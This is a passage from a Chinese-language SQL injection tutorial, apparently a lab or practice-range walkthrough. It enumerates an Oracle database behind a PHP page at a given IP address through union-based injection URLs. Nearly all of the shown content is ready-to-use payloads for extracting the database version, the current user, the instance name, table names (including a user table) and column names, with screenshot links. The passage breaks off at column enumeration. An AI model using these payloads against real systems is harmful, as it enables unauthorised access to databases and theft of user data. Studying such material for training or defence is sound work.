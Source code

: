 后续便可以替换显错点进行注入。
## 3、查询数据库版本信息
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select banner from sys.v_$version where rownum=1) from dual
```
## 4、获取当前数据库连接用户
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select sys_context('userenv','current_user') from dual) from dual

http://219.153.49.228:44768/new_list.php?id=-1 union select '1',user from dual
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627354142760-9af3da8c-9eb3-4592-9c52-24a10e962061.png#align=left&display=inline&height=347&margin=%5Bobject%2Object%5D&name=image.png&originHeight=694&originWidth=2492&size=123811&status=done&style=none&width=1246)
## 5、查询当前数据库库名
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select instance_name from V$INSTANCE) from dual
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627354254697-9084c0a1-02ea-4da6-8f68-b579e31135fd.png#align=left&display=inline&height=338&margin=%5Bobject%2Object%5D&name=image.png&originHeight=676&originWidth=2510&size=123816&status=done&style=none&width=1255)
## 6、查询数据库表名
查询表名一般查询admin或者user表
### 直接查询
获取第一个表名**LOGMNR_SESSION_EVOLVE$**
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select table_name from user_tables where rownum=1) from dual
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627353844960-cad323f3-f77c-4c12-b1e8-9250896245b8.png#align=left&display=inline&height=254&margin=%5Bobject%2Object%5D&name=image.png&originHeight=508&originWidth=1252&size=21553&status=done&style=none&width=626)
获取第二个表名**LOGMNR_GLOBAL$**
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select table_name from user_tables where rownum=1 and table_name not in 'LOGMNR_SESSION_EVOLVE$') from dual
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627353863561-54f3d94e-8596-40c9-9f49-d2520256d80f.png#align=left&display=inline&height=238&margin=%5Bobject%2Object%5D&name=image.png&originHeight=476&originWidth=1166&size=18009&status=done&style=none&width=583)
获取第三个表名**LOGMNR_GT_TAB_INCLUDE$**
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select table_name from user_tables where rownum=1 and table_name not in 'LOGMNR_SESSION_EVOLVE$' and table_name not in 'LOGMNR_GLOBAL$') from dual
```
### 模糊搜索查询
获取sns_users表名
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select table_name from user_tables where table_name like '%user%' and rownum=1) from dual
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627354561532-baf25308-92eb-42f2-bc57-e95ddd2b1891.png#align=left&display=inline&height=346&margin=%5Bobject%2Object%5D&name=image.png&originHeight=692&originWidth=2496&size=125987&status=done&style=none&width=1248)
## 7、查询数据库列名
### 直接查询
获取sns_users表里的字段
```
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where table_name='sns_users' and rownum=1) from dual

```